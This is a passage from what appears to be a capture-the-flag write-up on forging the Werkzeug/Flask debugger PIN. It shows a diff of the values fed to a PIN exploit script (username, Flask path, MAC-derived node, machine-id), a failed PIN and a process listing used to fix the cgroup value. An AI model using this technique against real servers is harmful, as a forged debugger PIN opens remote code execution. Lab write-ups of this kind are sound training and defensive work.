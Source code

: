 #### `get_machine_id(), /etc/machine-id`

The `get_machine_id()` function exists inside the `__init__.py` file and is rather large and dependant on most of the python dependencies listed in that file so the easiest value to obtain is through `/etc/machine-id` which can be obtained using:

![picture](https://i.imgur.com/IrOvbUR.png)

#### Running the exploit
The final values can be seen as:

```diff
diff defaultPINExploit.py pinExploit.py 
4c4
<       'web3_user',# username
---
>       'angus',# username
7c7
<       '/usr/local/lib/python3.5/dist-packages/flask/app.py' # getattr(mod, '__file__', None),
---
>       '/usr/local/lib/python3.8/dist-packages/flask/app.py' # getattr(mod, '__file__', None),
11,12c11,12
<       '279275995014060',# str(uuid.getnode()),  /sys/class/net/ens33/address
<       'd4e6cb65d59544f3331ea0425dc555a1'# get_machine_id(), /etc/machine-id
---
>       '158120054869863',# str(uuid.getnode()),  /sys/class/net/ens33/address
>       'c34dfd2441154d6797e82cf80cd8b166'# get_machine_id(), /etc/machine-id

```

When the script is ran, a code is outputted: `283-149-359`. However this does not work:

![picture](https://i.imgur.com/eKxgmJ8.png)

### Fixing the issue

After some unsuccessful debugging, and re-reading the hacktricks article, it appears that the value simply obtained from `/etc/machine-id` might be incorrect with the article detailing:

> `get_machine_id()` read the value in `/etc/machine-id` or `/proc/sys/kernel/random/boot_id` and return directly if there is, sometimes it might be required to append a piece of information within `/proc/self/cgroup` that you find at the end of the first line (after the third slash)

The contents of `/proc/self/cgroup` would be the contents for the bash process currently in use. But the Werkzeug debugger would use the information found in it's cgroup file since `self` would refer to the process id of the flask application. The pid can be found with:

```
ps aux
USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
----------          [SNIP]          ----------
mysql       1001  0.2 10.3 1758208 412040 ?      Ssl  Jan05   0:43 /usr/sbin/mysqld
root        1323  0.0  0.0      0     0 ?        S<   Jan05   0:00 [loop3]
root        1437  0.0  0.0      0     0 ?        S<   Jan05   0:00 [loop4]
root        1576  0.0  0.0      0     0 ?        S<   Jan05   0:00 [loop5]
www-data    2565  0.0  1.1 236560 47936 ?        S    Jan05   0:01 /usr/sbin/apache2 -k start
uuidd       3850  0.0  0.0   7996  1088 ?        Ss   Jan05   0:00 /usr/sbin/uuidd --socket-activation
root       32326  0.0  0.2 249540  9736 ?        Ssl  Jan05   0:00 /usr/lib/upower/upowerd
angus      34668  0.0  0.7  46852 31020 ?        Ss   Jan05   0:00 /usr/bin/python3 app.py
angus      34691  2.0  0.8 1071748 35192 ?       Sl   Jan05   2:07 /usr/bin/python3 /home/angus/stockchecker/app.py
root       35723  0.0  0.0      0     0 ?        I    Jan05   0:03 [kworker/1:1-mpt_poll_0]
www-data   36623  0.0  0.4 230640 19056 ?        S    Jan05   0:00 /usr/sbin/apache2 -k start

----------          [SNIP]          ----------
```